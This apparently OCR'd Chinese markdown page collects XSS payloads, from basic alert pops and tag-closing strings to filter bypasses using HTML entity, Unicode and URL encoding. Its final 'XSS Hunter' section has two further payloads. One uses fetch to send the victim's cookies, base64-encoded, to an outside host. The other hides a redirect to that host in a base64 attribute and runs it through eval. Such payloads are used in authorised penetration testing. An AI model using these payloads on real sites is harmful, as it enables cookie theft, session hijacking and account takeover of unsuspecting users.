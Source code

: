 # XSS测试脚本集合

## 基础XSS Payloads

### 1. 基本弹窗
```html
<img src=x onerror=alert('XSS')>
<img src=x onerror=alert('XSS')>
```

### 2. 闭合标签
```html
'><script>alert('XSS')</script>
"><script>alert('XSS')</script>
```

### 3. 事件处理器
```html
<img src=x onerror=alert('XSS')>
<div onmouseover="alert('XSS')">hover me</div>
```

## 绕过过滤的Payloads

### 1. 使用HTML实体编码
```html
&#39; onclick=&#34;alert(&#39;XSS&#39;)&#34;
```

### 2. 使用Unicode编码
```html
\u0027 onclick=\u0022alert(\u0027XSS\u0027)\u0022
```

### 3. 使用URL编码
```html
%27%20onclick%3D%22alert%28%27XSS%27%29%22
```

## XSS Hunter Payloads

### 1. 基本XSS Hunter
```html
'><img src=x onerror="fetch('https://js.rip/20njahuoqt?c='+btoa(document.cookie))">
```

### 2. 使用base64编码
```html
'><img src=x id=ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vanMucmlwLzIwbmphaHVvcXQn onerror=eval(atob(this.id))>
```

